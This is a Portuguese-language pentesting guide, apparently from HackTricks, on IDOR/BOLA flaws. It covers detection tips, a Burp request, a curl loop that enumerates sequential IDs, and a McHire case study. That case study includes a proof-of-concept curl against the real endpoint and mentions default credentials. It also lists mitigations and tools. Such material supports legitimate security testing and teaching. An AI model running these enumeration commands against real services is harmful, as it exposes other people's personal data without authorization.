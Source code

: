 # IDOR (Insecure Direct Object Reference)

{{#include ../banners/hacktricks-training.md}}

IDOR (Insecure Direct Object Reference) / Broken Object Level Authorization (BOLA) aparece quando um endpoint web ou de API divulga ou aceita um identificador controlado pelo usuário que é usado **diretamente** para acessar um objeto interno **sem verificar se o chamador está autorizado** a acessar/modificar esse objeto. A exploração bem-sucedida normalmente permite a escalada de privilégios horizontal ou vertical, como ler ou modificar dados de outros usuários e, no pior dos casos, a tomada total de conta ou exfiltração em massa de dados.

---
## 1. Identificando Potenciais IDORs

1. Procure por **parâmetros que referenciam um objeto**:
* Caminho: `/api/user/1234`, `/files/550e8400-e29b-41d4-a716-446655440000`
* Consulta: `?id=42`, `?invoice=2024-00001`
* Corpo / JSON: `{"user_id": 321, "order_id": 987}`
* Cabeçalhos / Cookies: `X-Client-ID: 4711`
2. Prefira endpoints que **leem ou atualizam** dados (`GET`, `PUT`, `PATCH`, `DELETE`).
3. Observe quando os identificadores são **sequenciais ou previsíveis** – se seu ID é `64185742`, então `64185741` provavelmente existe.
4. Explore fluxos ocultos ou alternativos (por exemplo, *"membros da equipe Paradox"* link em páginas de login) que podem expor APIs extras.
5. Use uma **sessão autenticada de baixo privilégio** e mude apenas o ID **mantendo o mesmo token/cookie**. A ausência de um erro de autorização é geralmente um sinal de IDOR.

### Quick manual tampering (Burp Repeater)
```
PUT /api/lead/cem-xhr HTTP/1.1
Host: www.example.com
Cookie: auth=eyJhbGciOiJIUzI1NiJ9...
Content-Type: application/json

{"lead_id":64185741}
```
### Enumeração automatizada (Burp Intruder / loop curl)
```bash
for id in $(seq 64185742 64185700); do
curl -s -X PUT 'https://www.example.com/api/lead/cem-xhr' \
-H 'Content-Type: application/json' \
-H "Cookie: auth=$TOKEN" \
-d '{"lead_id":'"$id"'}' | jq -e '.email' && echo "Hit $id";
done
```
---
## 2. Estudo de Caso do Mundo Real – Plataforma de Chatbot McHire (2025)

Durante uma avaliação do portal de recrutamento **McHire** alimentado por Paradox.ai, o seguinte IDOR foi descoberto:

* Endpoint: `PUT /api/lead/cem-xhr`
* Autorização: cookie de sessão do usuário para **qualquer** conta de teste de restaurante
* Parâmetro do corpo: `{"lead_id": N}` – identificador numérico **sequencial** de 8 dígitos

Ao diminuir `lead_id`, o testador recuperou PII **completa** de candidatos arbitrários (nome, e-mail, telefone, endereço, preferências de turno) além de um **JWT** de consumidor que permitia o sequestro de sessão. A enumeração do intervalo `1 – 64,185,742` expôs aproximadamente **64 milhões** de registros.

Requisição de Prova de Conceito:
```bash
curl -X PUT 'https://www.mchire.com/api/lead/cem-xhr' \
-H 'Content-Type: application/json' \
-d '{"lead_id":64185741}'
```
Combined with **credenciais de administrador padrão** (`123456:123456`) que concediam acesso à conta de teste, a vulnerabilidade resultou em uma violação de dados crítica em toda a empresa.

---
## 3. Impacto do IDOR / BOLA
* Escalação horizontal – ler/atualizar/excluir dados de **outros usuários**.
* Escalação vertical – usuário com baixo privilégio ganha funcionalidade exclusiva de administrador.
* Violação de dados em massa se os identificadores forem sequenciais (por exemplo, IDs de candidatos, faturas).
* Tomada de conta ao roubar tokens ou redefinir senhas de outros usuários.

---
## 4. Mitigações & Melhores Práticas
1. **Impor autorização em nível de objeto** em cada solicitação (`user_id == session.user`).
2. Preferir **identificadores indiretos e imprevisíveis** (UUIDv4, ULID) em vez de IDs auto-incrementais.
3. Realizar autorização **do lado do servidor**, nunca confiar em campos de formulário ocultos ou controles de UI.
4. Implementar verificações de **RBAC / ABAC** em um middleware central.
5. Adicionar **limitação de taxa e registro** para detectar enumeração de IDs.
6. Testar a segurança de cada novo endpoint (unitário, integração e DAST).

---
## 5. Ferramentas
* **Extensões do BurpSuite**: Authorize, Auto Repeater, Turbo Intruder.
* **OWASP ZAP**: Auth Matrix, Forced Browse.
* **Projetos do Github**: `bwapp-idor-scanner`, `Blindy` (caça IDOR em massa).

## Referências
* [McHire Chatbot Platform: Default Credentials and IDOR Expose 64M Applicants’ PII](https://ian.sh/mcdonalds)
* [OWASP Top 10 – Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
* [How to Find More IDORs – Vickie Li](https://medium.com/@vickieli/how-to-find-more-idors-ae2db67c9489)
{{#include ../banners/hacktricks-training.md}}
